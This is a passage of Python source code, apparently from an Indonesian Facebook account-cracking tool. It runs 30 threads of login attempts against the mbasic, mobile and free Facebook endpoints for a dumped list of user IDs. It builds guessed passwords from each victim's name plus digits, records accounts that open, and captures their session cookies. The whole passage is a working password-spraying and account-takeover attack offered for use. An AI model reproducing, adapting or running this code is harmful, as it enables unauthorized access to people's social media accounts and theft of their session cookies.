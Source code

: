 data2.update({ 					'email':idf, 					'pass':pw}) 		res = ses.post('https://mbasic.facebook.com'+form.get('action'),data=data2,headers=h2).text 		ress = parser(res, 'html.parser') 		if 'Lihat detail login yang ditampilkan. Ini Anda?' in str(ress.find('title').text): 			akun += f"""{K} |___{P}Akun anda tapyes segera login di fb lite\n""" 		else: 			if(len(sesi(res))==0): 				if 'Masukkan Kode Masuk untuk Melanjutkan' in str(ress.find('title').text): 					akun += f"""{K} |___{M}Akun anda terpasang A2F \n""" 				else: 					cok = convert(ses.cookies.get_dict()) 					akun += f"""{K} |___{P}Akun anda tidak terjadi cp {K}     |___{P}Cookkie : {I}{cok}\n""" 			else: 				akun += f"""{K} |\n""" 				o = 0 				for cp in opsi: 					o+=1 					akun += f"""{K} |____{O}0{o} {U}{cp}\n""" 		opsi.clear() 	except Exception as e: 		akun += f"""{K} |___{M}Password salah atau terjadi spam ip terhadap internet anda\n""" 	print('\r'+ akun) 	print('\r                                                                       ') from datetime import datetime akunok = [] def setting(): # <========== SETTING CRACK 	print(f"""\n {P}[{W}01{P}] Mobile facebook {P}[{W}02{P}] Mbasic facebook {P}[{W}03{P}] Free facebook\n""") 	jeeck_gtg = input(f"{P}[{K}•{P}] Masukan pilihan : {W}") 	if jeeck_gtg in ["01","1"]: 		metode.append("mobile") 	elif jeeck_gtg in ["02","2"]: 		metode.append("mbasic") 	elif jeeck_gtg in ["03","3"]: 		metode.append("free") 	else: 		metode.append("mobile") 	nano_nani = input(f"\n{P}[{K}•{P}] Apakah anda ingin menampilkan opsi Y/N : {W}") 	if nano_nani in ["y","Y","ya","YA"]: 		cepeh.append('ya') 	print(f""" {P}[{W}01{P}] Id tertua {P}[{W}02{P}] Id termuda\n""") 	nano = input(f"{P}[{K}•{P}] Masukan pilihan : {W}") 	if nano in ["01","1"]: 		for x in dump: 			id.append(x) 	elif nano in ["02","2"]: 		for x in dump: 			id.insert(0,x) 	else: 		for x in dump: 			id.append(x) 	print(f""" {P}[{W}01{P}] Pasword manual {P}[{W}02{P}] Pasword gabung {P}[{W}03{P}] Pasword defaults\n""") 	nani = input(f"{P}[{K}•{P}] Masukan pilihan : {W}") 	if nani in ["01","1"]: 		global ok,cp 		pwx = [] 		wr(f"""\n{P}[{K}•{P}] Buatlah password di bawah ini\n{P}[{K}•{P}] Gunakan tanda (,) sebagai pemisah\n{P}[{K}•{P}] Membuat password minimal 6 kata / huruf\n""") 		nani = input(f"{P}[{K}•{P}] Buat password : {W}").split(",") 		for x in nani: 			pwx.append(x) 		wr(f"""\n{P}[{K}•{P}] Akun ok tersimpan di {I}{nano_nini}\n{P}[{K}•{P}] Akun cp tersimpan di {K}{nano_nana}\n""") 		with tred(max_workers=30) as nani_nano: 			for akun in id: 				idf,nama = akun.split('|')[0],akun.split('|')[1].lower() 				if 'mobile' in metode: 					nani_nano.submit(crack,idf,pwx,"m.facebook.com") 				elif 'mbasic' in metode: 					nani_nano.submit(crack,idf,pwx,"mbasic.facebook.com") 				elif 'free' in metode: 					nani_nano.submit(crack,idf,pwx,"free.facebook.com") 				else: 					nani_nano.submit(crack,idf,pwx,"m.facebook.com") 		exit(f"\n{P}[{K}•{P}] Tools berhenti") 	elif nani in ["02","2"]: 		global ok,cp 		pwx = [] 		angka = ["123456"] 		huruf = input(f"\n{P}[{K}•{P}] Buat pasword : {W}").split(",") 		random = random.choice(["ganteng","tampan","cans","canz"]) 		if "," in str(random): 			jalan(f"\n{P}[{K}•{P}] Eror ya anjink");exit() 		wr(f"""\n{P}[{K}•{P}] Akun ok tersimpan di {I}{nano_nini}\n{P}[{K}•{P}] Akun cp tersimpan di {K}{nano_nana}\n""") 		with tred(max_workers=30) as nani_nano: 			for akun in id: 				idf,nama = akun.split('|')[0],akun.split('|')[1].lower() 				depan = nama.split(" ")[0] 				pwx = angka+huruf 				if len(nama)<=5: 					if len(depan)<=1 or len(depan)<=2: 						pass  					else: 						pwx.append(depan+"123") 						pwx.append(depan+"12345") 						pwx.append(depan+random) 				else: 					if len(depan)<=1 or len(depan)<=2: 						try: 							tengah = nama.split(" ")[1] 							if len(tengah)<=3: 								pass 							else: 								pwx.append(tengah+"123") 								pwx.append(tengah+"12345") 								pwx.append(tengah+random) 								pwx.append(nama) 						except: 							pwx.append(nama) 					else: 						pwx.append(nama) 						pwx.append(depan+"123") 						pwx.append(depan+"12345") 						pwx.append(depan+random) 				if 'mobile' in metode: 					nani_nano.submit(crack,idf,pwx,"m.facebook.com") 				elif 'mbasic' in metode: 					nani_nano.submit(crack,idf,pwx,"mbasic.facebook.com") 				elif 'free' in metode: 					nani_nano.submit(crack,idf,pwx,"free.facebook.com") 				else: 					nani_nano.submit(crack,idf,pwx,"m.facebook.com") 		exit("\n{P}[{K}•{P}] Tools terhenti") 	elif nani in ["03","3"]: 		global ok,cp 		wr(f"""\n{P}[{K}•{P}] Akun ok tersimpan di {I}{nano_nini}\n{P}[{K}•{P}] Akun cp tersimpan di {K}{nano_nana}\n""") 		with tred(max_workers=30) as nani_nano: 			for akun in id: 				idf,nama = akun.split('|')[0],akun.split('|')[1].lower() 				depan = nama.split(" ")[0] 				pwx = ['123456'] 				if len(nama)<=5: 					if len(depan)<=1 or len(depan)<=2: 						pass  					else: 						pwx.append(depan+"123") 						pwx.append(depan+"12345") 				else: 					if len(depan)<=1 or len(depan)<=2: 						try: 							tengah = nama.split(" ")[1] 							if len(tengah)<=3: 								pass 							else: 								pwx.append(tengah+"123") 								pwx.append(tengah+"12345") 								pwx.append(nama) 						except: 							try: 								belakang = nama.split(' ')[2] 								if len(belakang)<=3:pass 								else: 									pwx.append(belakang+"123") 									pwx.append(belakang+"12345") 									pwx.append(nama) 							except:pwx.append(nama) 					else: 						pwx.append(nama) 						pwx.append(depan+"123") 						pwx.append(depan+"12345") 				if 'mobile' in metode: 					nani_nano.submit(crack,idf,pwx,"m.facebook.com") 				elif 'mbasic' in metode: 					nani_nano.submit(crack,idf,pwx,"mbasic.facebook.com") 				elif 'free' in metode: 					nani_nano.submit(crack,idf,pwx,"free.facebook.com") 				else: 					nani_nano.submit(crack,idf,pwx,"m.facebook.com") 		exit(f"\n{P}[{K}•{P}] Tools terhenti") resok = [] rescp = [] def